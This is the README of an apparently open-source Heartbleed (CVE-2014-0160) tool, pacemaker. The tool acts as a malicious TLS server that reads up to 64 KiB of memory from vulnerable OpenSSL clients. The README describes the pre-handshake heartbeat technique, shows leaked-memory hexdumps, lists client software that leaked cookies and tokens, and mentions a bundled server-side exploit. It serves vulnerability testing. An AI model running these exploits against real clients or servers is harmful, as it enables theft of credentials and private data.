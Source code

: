 # Pacemaker
Attempts to abuse OpenSSL *clients* that are vulnerable to [Heartbleed][0]
([CVE-2014-0160][1]). Compatible with Python 2 and 3.

## Am I vulnerable?
Run the server:

    python pacemaker.py

In your client, open https://localhost:4433/ (replace the hostname if needed).
For example:

    curl https://localhost:4433/

The client will always fail to connect:

    curl: (35) Unknown SSL protocol error in connection to localhost:4433

If you are not vulnerable, the server outputs something like:

    Connection from: 127.0.0.1:40736
    Possibly not vulnerable

If you *are* vulnerable, you will see something like:

    Connection from: 127.0.0.1:40738
    Client returned 65535 (0xffff) bytes
    0000: 18 03 03 40 00 02 ff ff 2d 03 03 52 34 c6 6d 86  ...@....-..R4.m.
    0010: 8d e8 40 97 da ee 7e 21 c4 1d 2e 9f e9 60 5f 05  ..@...~!.....`_.
    0020: b0 ce af 7e b7 95 8c 33 42 3f d5 00 c0 30 00 00  ...~...3B?...0..
    0030: 05 00 0f 00 01 01 00 00 00 00 00 00 00 00 00 00  ................
    0040: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
    *
    4000: 00 00 00 00 00 18 03 03 40 00 00 00 00 00 00 00  ........@.......
    8000: 00 00 00 00 00 00 00 00 00 00 18 03 03 40 00 00  .............@..
    ...
    e440: 1d 2e 9f e9 60 5f 05 b0 ce af 7e b7 95 8c 33 42  ....`_....~...3B
    e450: 3f d5 00 c0 30 00 00 05 00 0f 00 01 01 00 00 00  ?...0...........
    fff0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00     ...............


Subsequent lines full of NUL bytes are folded into one with an `*` thereafter
(like the `xxd` tool).

An example where more "interesting" memory gets leaked using
`wget -O /dev/null https://google.com https://localhost:4433`:

    Connection from: 127.0.0.1:41914
    Client returned 65535 (0xffff) bytes
    0000: 18 03 03 40 00 02 ff ff 2d 03 03 52 34 c6 6d 86  ...@....-..R4.m.
    0010: 8d e8 40 97 da ee 7e 21 c4 1d 2e 9f e9 60 5f 05  ..@...~!.....`_.
    0020: b0 ce af 7e b7 95 8c 33 42 3f d5 00 c0 30 00 00  ...~...3B?...0..
    0030: 05 00 0f 00 01 01 65 0d 0a 43 6f 6e 74 65 6e 74  ......e..Content
    0040: 2d 54 79 70 65 3a 20 74 65 78 74 2f 68 74 6d 6c  -Type: text/html
    0050: 3b 20 63 68 61 72 73 65 74 3d 55 54 46 2d 38 0d  ; charset=UTF-8.
    ...
    0b50: 01 05 05 07 02 01 16 2d 68 74 74 70 73 3a 2f 2f  .......-https://
    0b60: 77 77 77 2e 67 65 6f 74 72 75 73 74 2e 63 6f 6d  www.geotrust.com
    0b70: 2f 72 65 73 6f 75 72 63 65 73 2f 72 65 70 6f 73  /resources/repos
    0b80: 69 74 6f 72 79 30 0d 06 09 2a 86 48 86 f7 0d 01  itory0...*.H....
    0b90: 01 05 05 00 03 81 81 00 76 e1 12 6e 4e 4b 16 12  ........v..nNK..
    0ba0: 86 30 06 b2 81 08 cf f0 08 c7 c7 71 7e 66 ee c2  .0.........q~f..
    0bb0: ed d4 3b 1f ff f0 f0 c8 4e d6 43 38 b0 b9 30 7d  ..;.....N.C8..0}
    0bc0: 18 d0 55 83 a2 6a cb 36 11 9c e8 48 66 a3 6d 7f  ..U..j.6...Hf.m.
    0bd0: b8 13 d4 47 fe 8b 5a 5c 73 fc ae d9 1b 32 19 38  ...G..Z\s....2.8
    0be0: ab 97 34 14 aa 96 d2 eb a3 1c 14 08 49 b6 bb e5  ..4.........I...
    0bf0: 91 ef 83 36 eb 1d 56 6f ca da bc 73 63 90 e4 7f  ...6..Vo...sc...
    0c00: 7b 3e 22 cb 3d 07 ed 5f 38 74 9c e3 03 50 4e a1  {>".=.._8t...PN.
    0c10: af 98 ee 61 f2 84 3f 12 00 00 00 00 00 00 00 00  ...a..?.........
    0c20: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
    *
    4000: 00 00 00 00 00 18 03 03 40 00 00 00 00 00 00 00  ........@.......
    ...
    ffd0: 00 00 00 00 5c d3 3c 02 00 00 00 00 49 53 4f 36  ....\.<.....ISO6
    ffe0: 34 36 2d 53 45 2f 2f 00 53 45 4e 5f 38 35 30 32  46-SE//.SEN_8502
    fff0: 30 30 5f 42 2f 2f 00 00 00 00 00 00 00 00 00     00_B//.........

## How does it work?
[TLS heartbeats][2] can be sent by either side of a TLS connection. After the
handshake completes, these heartbeats are encrypted. But apparently OpenSSL
allows heartbeat messages before the handshake is completed. These heartbeats
(on top of the record layer) are not encrypted at all!

This makes it very easy to exploit the bug on clients:

 1. Wait for a ClientHello containing a TLS version and cipher suite.
 2. Send a ServerHello containing the same TLS version and cipher suite (to
    prevent handshake failure).
 3. At this point, the server can send as many heartbeat requests as it likes.

Note that there is *no* need for any certificates as the heartbeats are accepted
before any certificate or encryption keys are exchanged. As the length of the
heartbeat requests are unchecked, [up to 64 kiB][3] memory can be read from
client memory.

pacemaker performs the above steps and assumes a client not to be vulnerable if
step 3 results in data other than Alerts. If needed for some protocols (SMTP
with STARTTLS for example), additional data is exchanged before the TLS
handshake starts.

## Advanced usage
Run `./pacemaker.py -h` for more options. The most important options are
probably `-t` (`--timeout`) and `-x` (`--count`). The default timeout is 3
seconds which should be enough for most clients to respond (unless there is a
satellite link or something).

Example to be more patient per heartbeat (5 seconds) and acquire four heartbeat
responses:

    ./pacemaker.py -t 5 -x 4

In theory, the heartbeats can take twenty seconds now, but in practice you will
get responses much faster.

## Tested clients
The following clients have been tested against OpenSSL 1.0.1f on Arch Linux and
leaked memory before the handshake:

 - MariaDB 5.5.36
 - wget 1.15 (leaks memory of earlier connections and own state)
 - curl 7.36.0 (https, FTP/IMAP/POP3/SMTP with --ftp-ssl)
 - git 1.9.1 (tested clone / push, leaks not much)
 - nginx 1.4.7 (in proxy mode, leaks memory of previous requests)
 - links 2.8 (leaks contents of previous visits!)
 - KDE 4.12.4 (kioclient, Dolphin, tested https and ftps with kde4-ftps-kio)
 - Exim 4.82 (outgoing SMTP)

links is a great example that demonstrates the effect of this bug on clients. It
is a text-based browser that leaks details including headers (cookies,
authorization tokens) and page contents.

## License
pacemaker is licensed under the MIT license. See the LICENSE file for more
details.

# heartbleed.py
This is an implementation that uses pacemaker for crafting packets.
Protocols other than TLS (STMP/FTP/...) is not yet supported.
It has the caveat that repeated requests need to establish a new connection for
every attempt because the server immediately resets the connection after the
first heartbeat response.

The caveat is a limitation resulting from the taken approach, if the handshake
would be completed by the client too, then many encrypted handshakes can be sent
without connection failures.

heartbleed.py is part of pacemaker, so falls under the same license terms.

Tested against `openssl s_client` and nginx 1.4.7 with OpenSSL 1.0.1f under Arch
Linux.

# ssltest.py
This repository also contains a working version that targets servers. ssltest.py
was created by Jared Stafford (<jspenguin@jspenguin.org>), all due credits are
to him! It was retrieved from http://s3.jspenguin.org/ssltest.py.

At the moment, the script is only compatible with Python 2.

  [0]: http://heartbleed.com/
  [1]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
  [2]: https://tools.ietf.org/html/rfc6520#section-3
  [3]: http://blog.existentialize.com/diagnosis-of-the-openssl-heartbleed-bug.html
